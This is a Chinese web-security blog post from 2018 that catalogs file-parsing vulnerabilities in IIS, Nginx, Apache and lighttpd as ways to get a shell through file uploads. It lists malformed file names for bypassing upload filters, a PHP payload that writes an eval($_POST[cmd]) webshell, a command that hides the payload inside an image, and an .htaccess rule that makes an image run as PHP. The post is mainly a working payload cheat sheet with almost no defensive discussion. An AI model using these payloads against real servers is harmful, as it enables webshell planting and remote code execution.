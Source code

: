 ```yaml
---
layout: post
title:  解析漏洞
date:   2018-10-19 17:23:03 +0800
img:
description: 解析漏洞
categories: web安全
---
```


* 目录
{:toc}

## IIS 5.x/6.0解析漏洞

1. 目录解析

    在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

    例如创建目录 xx.asp，那么/xx.asp/xx.jpg将被当作asp文件来执行。假设攻击者可以控制上传文件夹路径，就可以不管你上传后你的图片改不改名都能拿shell了。

    /xx.asp/xx.jpg

2. 文件解析

    在IIS6.0下，分号后面的不被解析，也就是说xx.asp;.jpg会被服务器看成是xx.asp

    xx.asp;.jpg
    
    另外IIS6.0 默认的可执行文件除了asp还包含这三种:

    /shell.asa

    /shell.cer

    /shell.cdx

## IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

在默认Fast-CGI开启状况下,上传一个名字为xx.jpg，内容为
`<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>`
的文件，然后访问xx.jpg/.php,在这个目录下就会生成一句话木马 shell.php

e.g. 将恶意文本写入图片的二进制代码，避免破坏图片文件头和尾

`copy xx.jpg/b + yy.txt/a xy.jpg `

- /b 即二进制[binary]模式

- /a 即ascii模式 xx.jpg正常图片文件 


## Nginx <8.03 空字节代码执行漏洞

影响版本:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

xxx.jpg%00.php

来执行其中的代码

## Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 shell.php.a.rar “.a”和”.rar” 这两种后缀是apache不可识别解析,apache就会把shell.php.a.rar解析成php

## lighttpd

xx.jpg/xx.php

## 其他

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，利用windows的这种特性，通过抓包在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

`<FilesMatch "shell.jpg"> SetHandler application/x-httpd-php </FilesMatch>`

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件